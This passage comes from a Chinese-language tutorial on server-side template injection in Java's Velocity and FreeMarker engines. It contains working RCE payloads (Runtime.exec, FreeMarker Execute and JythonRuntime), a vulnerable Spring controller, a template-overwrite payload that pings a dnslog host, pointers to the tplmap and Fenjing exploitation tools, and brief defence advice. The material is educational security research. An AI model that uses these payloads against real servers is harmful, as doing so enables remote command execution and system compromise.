通过 getTemplate 选择路径中具体的模板文件test.vm，创建 StringWriter 对象存储渲染结果，然后将上下文变量传入 template.merge 进行渲染。
比如：
这里使用java-sec-code里面的SSTI代码：
poc：
1 http://127.0.0.1:8080/ssti/velocity?template=%23set(%24e=%22e%22);%24e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22calc%22)$class.inspect("java.lang.Runtime").type.getRuntime().exec("sleep 5").waitFor() //延迟了5秒
参照《白头搔更短，SSTI惹人心！ 》简单进行调试
在最初的Controller层下断点，来追踪poc的解析过程：
（template -> instring）进入 Velocity.evaluate 方法：
（instring -> reader）继续跟进 evaluate 方法，RuntimeInstance类中封装了evaluate方法，instring被强制转化(Reader)类型。
跟进 StringReader 方法查看详情：
（reader -> nodeTree）继续跟进 this.evaluate() 方法
（nodeTree -> writer）继续跟进render方法
emmm…继续跟进render
继续看render方法
跟进execute方法
可以看到这是最后一步了，调试结束就可以看到poc已经成功被执行，看一下上图中的for循环的代码，大概意思是当遍历的节点时候，这时候就会一步步的保存我们的payload最终导致RCE
Confluence 未授权RCE分析（CVE-2019-3396）
根据官方文档的描述，可以看到这是由 widget Connector 这个插件造成的SSTI，利用SSTI而造成的RCE。在经过diff后，可以确定触发漏洞的关键点在于对post包中的_template字段
具体漏洞代码调试可以参考：《Confluence未授权模板注入/代码执行(CVE-2019-3396) 》
《[Confluence 未授权RCE分析（CVE-2019-3396）](https://lucifaer.com/2019/04/16/Confluence 未授权RCE分析（CVE-2019-3396）/#0x01-漏洞概述)》
十一、Java-FreeMarker
FreeMarker 是一款模板引擎：即一种基于模板和要改变的数据， 并用来生成输出文本(HTML网页，电子邮件，配置文件，源代码等)的通用工具。 它不是面向最终用户的，而是一个Java类库，是一款程序员可以嵌入他们所开发产品的组件。
FreeMarker模板代码 ：
1 2 3 4 5 6 7 8 9 10 <html > <head > <title > Welcome!</title > </head > <body > <#–这是注释–><h1 > Welcome ${user}!</h1 > <p > Our latest product:<a href ="${latestProduct.url}" > ${latestProduct.name}</a > !</body > </html >
模板文件存放在Web服务器上，就像通常存放静态HTML页面那样。当有人来访问这个页面， FreeMarker将会介入执行，然后动态转换模板，用最新的数据内容替换模板中 ${…} 的部分， 之后将结果发送到访问者的Web浏览器中。
这个模板主要用于 java ，用户可以通过实现 TemplateModel 来用 new 创建任意 Java 对象
具体的高级内置函数定义参考《Seldom used and expert built-ins 》
主要的用法如下：
1 2 3 4 <＃ - 创建一个用户定义的指令，调用类的参数构造函数 - >
调用了构造函数创建了一个对象，那么这个 payload 中就是调用的 freemarker 的内置执行命令的对象 Execute
freemarker.template.utility 里面有个Execute类，这个类会执行它的参数，因此我们可以利用new函数新建一个Execute类，传输我们要执行的命令作为参数，从而构造远程命令执行漏洞。构造payload：
1 <#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}
freemarker.template.utility 里面的JythonRuntime，可以通过自定义标签的方式，执行Python命令，从而构造远程命令执行漏洞。
1 <#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
这里使用测试代码来大概演示一下：https://github.com/hellokoding/springboot-freemarker
代码演示说明：https://hellokoding.com/spring-boot/freemarker/
前端代码 ——> hello.ftl
1 2 3 4 5 6 7 8 9 10 11 12 <!DOCTYPE html > <html lang ="en" > <head > <meta charset ="UTF-8" > <title > Hello ${name}!</title > <link href ="/css/main.css" rel ="stylesheet" > </head > <body > <h2 class ="hello-title" > Hello ${name}!</h2 > <script src ="/js/main.js" > </script > </body > </html >
后端代码 ——> HelloController.java：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 package com.backendvulnerabilities.ssti;import freemarker.cache.MultiTemplateLoader;import freemarker.cache.StringTemplateLoader;import freemarker.cache.TemplateLoader;import freemarker.template.Configuration;import freemarker.template.Template;import freemarker.template.TemplateException;import freemarker.template.utility.DateUtil;import org.springframework.beans.factory.annotation.Autowired;import org.springframework.stereotype.Controller;import org.springframework.ui.Model;import org.springframework.web.bind.annotation.*;import javax.servlet.http.HttpServletRequest;import javax.servlet.http.HttpServletResponse;import java.io.IOException;import java.io.StringWriter;import java.util.HashMap;import java.util.Map;@Controller public class HelloController {@Autowired private Configuration con;@GetMapping("/") public String index () {return "index" ;@RequestMapping(value = "/hello") public String hello (@RequestBody Map<String,Object> body, Model model) {"name" , body.get("name" ));return "hello" ;@RequestMapping(value = "/freemarker") public void freemarker (@RequestParam("username") String username, HttpServletRequest httpserver,HttpServletResponse response) {try {String data = "1ooooooooooooooooooo~" ;String templateContent = "<html><body>Hello " + username + " ${data}</body></html>" ;String html = createHtmlFromString(templateContent,data);catch (Exception e){private String createHtmlFromString (String templateContent, String data) throws IOException, TemplateException {Configuration cfg = new Configuration ();StringTemplateLoader stringLoader = new StringTemplateLoader ();"myTemplate" ,templateContent);Template template = cfg.getTemplate("myTemplate" ,"utf-8" );Map root = new HashMap ();"data" ,data);StringWriter writer = new StringWriter ();return writer.toString();@RequestMapping(value = "/template", method = RequestMethod.POST) public String template (@RequestBody Map<String,String> templates) throws IOException {StringTemplateLoader stringLoader = new StringTemplateLoader ();for (String templateKey : templates.keySet()){new MultiTemplateLoader (new TemplateLoader []{stringLoader,return "index" ;
上述代码主要编译给定的模板字符串和数据，生成HTML进行输出
模板注入的前提是在无过滤的情况下，使用模板来解析我们输入的字符，可以通过页面上的变化，来判断我们输入的内容是否被解析，如上图我们输入的内容被成功解析到页面上，并且没有过滤。
首先需要控制被攻击模板 /template 的内容，也就是要将本来无危害的模板文件实时更改为可攻击的模板内容。使用的payload
1 {"hello.ftl": "<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ ex(\"ping ilxwh0.dnslog.cn\") }<title>Hello!</title><link href=\"/css/main.css\" rel=\"stylesheet\"></head><body><h2 class=\"hello-title\">Hello!</h2><script src=\"/js/main.js\"></script></body></html>"}
关键代码在上图的红框中，接收用户传入的参数，使用keySet()获取key值，遍历相应的模块名字，使用StringTemplateLoader来加载模板内容，并使用putTemplate将key对应的value（也就是payload）写入templateKey中。这样就可以覆盖 hello.ftl 文件的内容，具体如下：
重新更改了加载的模板内容后，然后直接访问受影响的模板文件路径，此时恶意的模板文件内容就会被加载成功了，并执行了系统命令
dnslog平台也受到了请求
后言
由于本篇文章篇幅过长，容易脑壳疼，所以分为上下篇，上篇大概介绍了几种语言常见的几种模板注入，下篇分析几个cms的模板注入，包括海洋cms，74cms，ofcms等
参考：https://www.cnblogs.com/bmjoker/p/13508538.html
十二、自动化工具
1.手动安装，具体参考：
https://github.com/Marven11/Fenjing
git clone https://github.com/Marven11/Fenjing
cd Fenjing
python -m pip install -r requirements.txt
python -m fenjing scan --url 'http://xxx/'
输入以上命令随后，cat /flag即可得到flag
参考：https://xz.aliyun.com/t/11108 --smarty模板
2.这里推荐自动化工具tplmap，拿shell、执行命令、bind_shell、反弹shell、上传下载文件，Tplmap为SSTI的利用提供了很大的便利
github地址：https://github.com/epinna/tplmap
一键shell真香，还支持其他模板（Smarty，Mako，Tornado，Jinja2）的注入检测
十三、漏洞防御
和其他的注入防御一样，绝对不要让用户对传入模板的内容或者模板本身进行控制
减少或者放弃直接使用格式化字符串结合字符串拼接的模板渲染方式，使用正规的模板渲染方法
尽可能加载静态模板文件
另一个选择是创建一个安全加固/沙箱环境，禁用或删除潜在的危险指令。